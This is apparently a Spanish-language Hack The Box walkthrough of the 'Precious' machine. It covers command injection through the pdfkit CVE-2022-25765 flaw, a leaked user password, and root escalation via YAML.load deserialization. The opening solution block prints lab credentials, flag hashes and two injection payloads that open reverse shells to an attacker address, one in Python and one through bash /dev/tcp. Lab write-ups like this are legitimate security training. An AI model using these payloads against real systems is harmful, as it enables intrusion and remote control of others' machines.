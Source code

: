 # Hack The Box
    
  

  ![](portada.png)
  
## Máquina Precious

  



### Solución
    
    USER FLAG: "henry:Q3c1AqGHtoI0aXAYFH" >> /home/henry/user.txt >> 112bb323ac23f4a06b02be2e6d4a05b3
    
    ROOT FLAG: "root:650c7efc2338f853a15e7755eada5817" >> /root/root.txt >> 650c7efc2338f853a15e7755eada5817
    
    REVERSE SHELLS: http://10.10.14.253/?name=%20`python3 -c 'import 
    socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.253",9001));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` 
    
    http://10.10.14.253:9001/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.253/9001 <&1'`}
   

### Escaneo nmap

![](nmap.png)

### Añadimos el dominio al etc/hosts

![](redirect.png)

### Abrimos la página

![](1.png)

### Testeamos sus funciones con la url

![](2.png)

### Abriendo server en python

El server tiene un servicio que convierte páginas web en pdf, para ello necesitamos tener un servidor ejecutándose en nuestra máquina.

![](3.png)

### Descarga y análisis del pdf

Analizando los metadatos vemos que el pdf fué creado con pdfkit v0.8.6 el cual tiene un CVE-2022-25765 el cual nos dice que una app podría ser vulnerable si intenta representar una URL que tiene parámetros de cadena de consulta con la entrada del usuario.


![](4.png)

![](5.png)

![](6.png)

![](7.png)

### Reverse shell

Abriremos un oyente con netcat e introducimos nuestra reverse shell dentro de las comillas del código anterior, una vez hecho esto tendremos una shell.

![](8.png)

![](9.png)

![](10ng)

### Capturando la flag

Navegando entre directorios encontramos en el /home/henry un archivo llamado user.txt el cual no nos dejará acceder con los permisos actuales, en el archivo .bundle encontramos una password del usuario henry y ya podemos leer nuestra flag

![](11.png)

![](12.png)

![](13.png)

### Escalada de privilegios a ROOT

Haciendo sudo -l listamos lo que podemos ejecutar desde esta cuenta de usuario y que descubrimos henry puede ejecutar como root el archivo /opt/update_dependecies.rb el cual tras un vistazo al código vemos que usa YAML.LOAD que es vulnerable al ataque de deserialización, para esto necesitamos crear una carga dentro de un archivo llamado dependencies.yml.

![](14.png)

![](15.png)

![](16.png)

Para hacer esto decidí cambiar a una shell de bash y estabilizarla por comodidad.

![](18.png)

Cargamos con un echo "--- nuestra carga para modificar el archivo dependencies.yml.

![](17.png)

![](19.png)

Comprobamos los cambios y utilizamos la función update_dependencies.rb para que lea nuestra carga y abrimos shell de ROOT.

![](20.png)

![](21.png)

Pwned!

![](22.png)

**Autor:** [AlbertoMiñan](https://github.com/albertominan)
